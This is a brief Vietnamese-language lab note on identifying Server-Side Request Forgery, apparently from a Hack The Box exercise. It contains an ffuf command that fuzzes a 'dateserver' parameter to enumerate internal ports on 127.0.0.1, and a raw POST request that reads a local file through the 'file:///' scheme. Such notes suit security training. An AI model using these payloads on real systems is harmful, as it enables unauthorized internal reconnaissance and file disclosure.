

# Identifying SSRF - Xác định lỗ hổng SSRF

## Confirming SSRF

Chúng ta chú ý đến các parameter mà nơi đó, ta nghi ngờ rằng server dùng tham số này để tạo url và server sẽ request URL đó nhằm mục đích lấy thông tin 

Ví dụ 



## Enumerating the System

Sử dụng SSRF để enum port và dịch vụ đang chạy trên hệ thống 

Sử dụng FUZZ hoặc Intruder 

```bash
reDrose18@htb[/htb]$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```


---

```ini
POST /index.php HTTP/1.1
Host: 10.129.115.62
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.115.62/
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://10.129.115.62
DNT: 1
Connection: keep-alive
Priority: u=0

dateserver=file:///flag.txt&date=2024-01-01
```


